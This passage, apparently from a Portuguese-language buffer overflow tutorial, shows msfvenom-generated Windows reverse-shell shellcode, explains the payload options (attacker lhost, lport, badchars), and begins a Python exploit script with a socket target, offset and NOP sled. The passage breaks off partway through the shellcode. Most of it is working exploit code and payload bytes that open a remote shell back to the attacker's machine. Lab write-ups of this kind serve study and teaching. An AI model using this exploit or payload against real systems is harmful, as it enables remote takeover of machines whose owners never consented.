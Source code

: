```bash
shellcode += b"\xa8\x07\x8c\x5d\x3a\xbf\x68\x5f\xef\x26\xfb"
shellcode += b"\x53\x44\x2c\xa3\x77\x5b\xe1\xd8\x8c\xd0\x04"
shellcode += b"\x0e\x05\xa2\x22\x8a\x4d\x70\x4a\x8b\x2b\xd7"
shellcode += b"\x73\xcb\x93\x88\xd1\x80\x3e\xdc\x6b\xcb\x56"
shellcode += b"\x11\x46\xf3\xa6\x3d\xd1\x80\x94\xe2\x49\x0e"
shellcode += b"\x95\x6b\x54\xc9\xda\x41\x20\x45\x25\x6a\x51"
shellcode += b"\x4c\xe2\x3e\x01\xe6\xc3\x3e\xca\xf6\xec\xea"
shellcode += b"\x5d\xa6\x42\x45\x1e\x16\x23\x35\xf6\x7c\xac"
shellcode += b"\x6a\xe6\x7f\x66\x03\x8d\x7a\xe1\xec\xfa\x85"
shellcode += b"\xfd\x84\xf8\x85\xdd\xaf\x74\x63\x77\x40\xd1"
shellcode += b"\x3c\xe0\xf9\x78\xb6\x91\x06\x57\xb3\x92\x8d"
shellcode += b"\x54\x44\x5c\x66\x10\x56\x09\x86\x6f\x04\x9c"
shellcode += b"\x99\x45\x20\x42\x0b\x02\xb0\x0d\x30\x9d\xe7"
shellcode += b"\x5a\x86\xd4\x6d\x77\xb1\x4e\x93\x8a\x27\xa8"
shellcode += b"\x17\x51\x94\x37\x96\x14\xa0\x13\x88\xe0\x29"
shellcode += b"\x18\xfc\xbc\x7f\xf6\xaa\x7a\xd6\xb8\x04\xd5"
shellcode += b"\x85\x12\xc0\xa0\xe5\xa4\x96\xac\x23\x53\x76"
shellcode += b"\x1c\x9a\x22\x89\x91\x4a\xa3\xf2\xcf\xea\x4c"
shellcode += b"\x29\x54\x1a\x07\x73\xfd\xb3\xce\xe6\xbf\xd9"
shellcode += b"\xf0\xdd\xfc\xe7\x72\xd7\x7c\x1c\x6a\x92\x79"
shellcode += b"\x58\x2c\x4f\xf0\xf1\xd9\x6f\xa7\xf2\xcb"
```

Onde:
**-p windows/shell_reverse_tcp** é a instrução que será gerada no payload
**lhost** é o endereço para onde o Windows vai enviar o shell, no caso o IP do Kali
**lport** é a porta onde o Windows vai se conectar
**-b “\x00”** são os badchars para serem evitados
**-v shellcode** é o nome da variável a ser criada
**-f py** é o formato que vai ser criado, no caso python

Vamos adicionar o shellcode em nosso exploit e organizar o envio com uma
sequencia de NOPs antes do shellcode.

O NOP (no operator) é uma instrução que não faz absolutamente nada, mas há uma
tecnica chamada de “nop slad”, onde inserimos uma sequência de NOPs antes do
shellcode para que o programa não quebre o shell.

xpltrun.py

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061
nop = b"\x90"*20
shellcode =  b""
shellcode += b"\xda\xd2\xbb\x01\x23\x9e\xef\xd9\x74\x24\xf4"
shellcode += b"\x5f\x31\xc9\xb1\x52\x31\x5f\x17\x83\xc7\x04"
shellcode += b"\x03\x5e\x30\x7c\x1a\x9c\xde\x02\xe5\x5c\x1f"
shellcode += b"\x63\x6f\xb9\x2e\xa3\x0b\xca\x01\x13\x5f\x9e"
shellcode += b"\xad\xd8\x0d\x0a\x25\xac\x99\x3d\x8e\x1b\xfc"
shellcode += b"\x70\x0f\x37\x3c\x13\x93\x4a\x11\xf3\xaa\x84"
shellcode += b"\x64\xf2\xeb\xf9\x85\xa6\xa4\x76\x3b\x56\xc0"
shellcode += b"\xc3\x80\xdd\x9a\xc2\x80\x02\x6a\xe4\xa1\x95"
shellcode += b"\xe0\xbf\x61\x14\x24\xb4\x2b\x0e\x29\xf1\xe2"
shellcode += b"\xa5\x99\x8d\xf4\x6f\xd0\x6e\x5a\x4e\xdc\x9c"
shellcode += b"\xa2\x97\xdb\x7e\xd1\xe1\x1f\x02\xe2\x36\x5d"
shellcode += b"\xd8\x67\xac\xc5\xab\xd0\x08\xf7\x78\x86\xdb"
```
